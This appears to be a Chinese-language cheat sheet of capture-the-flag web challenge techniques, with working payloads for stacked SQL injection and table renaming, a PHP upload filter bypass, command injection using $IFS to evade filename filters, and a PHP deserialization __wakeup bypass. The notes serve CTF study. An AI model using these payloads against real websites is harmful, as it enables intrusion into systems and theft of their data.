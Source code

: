 #### sql注入
##### 1、堆叠注入
```
例题: [随便注]
/?inject=1';show databases; --+

/?inject=1';show tables; --+

/*获得两个表名
1919810931114514
words
*/

/?inject=1';show columns from `words`; --+

/*
words里面：id data
1919810931114514里面：flag
*/

推断查询语句(inject=1的输出)：
select id,data from `words` where id='$id'

// 修改表名
rename tables `words` to `haha`;
rename tables `1919810931114514` to `words`;

// 修改字段类型及名称;在change关键字之后，紧跟着的是你要修改的字段名，然后指定新字段名及类型
alter table `words` change `flag` `id` varchar(100);


/?inject=1' or 1 --+
```

#### 文件上传
##### 1、上传文件，发现后台检测了文件内容包含<?，则可以通过一下方法绕过
```javascript
<script language="php">
    //中间写php代码
<srcipt>
```

#### 命令执行
##### 1、在获取所需要的文件时，假如屏蔽了文件名(e.g.flag.php屏蔽了flag)
```
ping 127.0.0.1;a=g;c\a\t$IFS$fla$a.php(同时屏蔽了空格和单引号)
例题:[GXYCTF2019]Ping Ping Ping
```

#### 序列化和反序列化
##### 1、遇到对private的序列化不能直接复制序列化结果
```php
#例题:Web_php_unserialize

<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$a = new Demo('fl4g.php');
$a_1 = serialize($a);
echo $a_1 . "</br>";
$a_1 = str_replace("O:4", "O:+4", $a_1);
echo $a_1 . "</br>";
$a_1 = str_replace("1:", "2:", $a_1);
echo $a_1 . "</br>";
echo base64_encode($a_1)."<br/>";

?> 
```

#### 部分编码
```
正常结尾带着==的是base64编码
url编码：
	%3d	---- =
	%27	---- '
	%5c	---- \
	%20 ---- 空格
```

#### 修改DNS解析记录
```
C:/Windows/System32/drivers/etc/hosts
最后加一条:	ip地址 网站域名
在访问域名的时候优先解析ip地址
```
